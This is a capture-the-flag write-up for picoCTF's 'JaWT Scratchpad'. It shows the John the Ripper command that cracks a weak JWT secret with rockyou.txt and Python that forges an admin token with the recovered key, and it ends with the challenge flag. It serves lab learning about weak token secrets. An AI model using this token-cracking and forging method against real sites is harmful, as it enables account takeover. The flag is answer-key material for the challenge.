




## JaWT Scratchpad



We are provided with a webpage where we have to login as admin.  



The challenge name heavily hints at this involving a JWT token. We can first login with any name like `John` to get a sample JWT token in our cookies.  



We can then bruteforce the cookie with [John the Ripper](https://en.wikipedia.org/wiki/John_the_Ripper) and [rockyou.txt](https://github.com/RykerWilder/rockyou.txt).  

```bash
john --wordlist=rockyou.txt jwt.txt
```

Doing so will reveal that the secret key of the JWT token is `ilovepico`.  

Using the secret, we can craft our own malicious token that allows us to login as admin on the webpage.  

```python
import jwt

payload = {
    "user": "admin"
}

token = jwt.encode(
    payload=payload,
    key="ilovepico",
    algorithm="HS256",
    headers={"typ": "JWT", "alg": "HS256"}
)
```

After changing the `jwt` cookie to our malicious token, the webpage then displays our flag.  



Flag: `picoCTF{jawt_was_just_what_you_thought_bbb82bd4a57564aefb32d69dafb60583}`